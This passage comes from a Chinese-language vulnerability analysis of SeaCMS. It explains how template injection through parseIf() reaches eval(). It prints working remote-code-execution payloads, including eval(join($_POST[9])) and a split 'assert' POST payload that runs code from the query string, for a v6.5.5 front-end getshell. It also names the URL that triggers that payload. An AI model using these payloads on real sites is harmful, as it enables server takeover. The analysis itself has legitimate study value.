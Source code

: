 ```PHP
if:eval(join($_POST[9]))
```



由上一个版本的数据流向，依旧会通过 **parseIf()** 函数，那么最终 eval() 执行恶意函数。这里有两个疑点需要解释。

- 为了防止在 **parseIf** 里面的 eval() 中的 if 语句逻辑错误而不能正常执行，这里构造了 eval(eval(【】)）的结构，使得因为解析顺序，**$_POST** 传来的值会直接进行解释执行。

- 这里只执行了一次 phpinfo() 函数就是第一次替换执行的，第一次的完整的正则匹配如下：

  ```php
  {if:eval(join($_POST[9]))},海洋CMS" />
  <meta name="description" content="{if:eval(join($_POST[9]))},海洋CMS" />
  <meta http-equiv="Content-Type" content="text/html; charset=utf-8">
  //省略大部分内容
  {end if}
  ```

  由正则匹配和 eval() 函数执行的语句知，最后的执行语句为

  ```php
  @eval("if("eval(join($_POST[9]))"){\$ifFlag=true;}else{\$ifFlag=false;}");
  ```

#### ￥思路分析

如果我们在首次拿到这个系统的代码时，想要找到上面这种利用方式是不太容易的。整个利用思路最最值得借鉴的就是按照 php 的解析顺序，替换顺序来构造 payload ，让多次替换后的 payload 成为最终的 payload。的确骚~



### 3、v6.5.5 前台 getshell

这一版的系统在 parseIf 函数里面进行了危险函数,参数的过滤，但是忽略了 assert 和 $SERVER['QUERY_STRING']。构造方法同上一版，payload 如下。

```php
文件：
search.php

POST 内容：
searchtype=5
&searchword={if{searchpage:year}
&year=:as{searchpage:area}}
&area=s{searchpage:letter}
&letter=ert{searchpage:lang}
&yuyan=($_SE{searchpage:jq}
&jq=RVER{searchpage:ver}
&ver=[QUERY_STRING]));
```

访问如下的 url 即可触发

`http://IP/search.php?phpinfo`

post 内容如上。


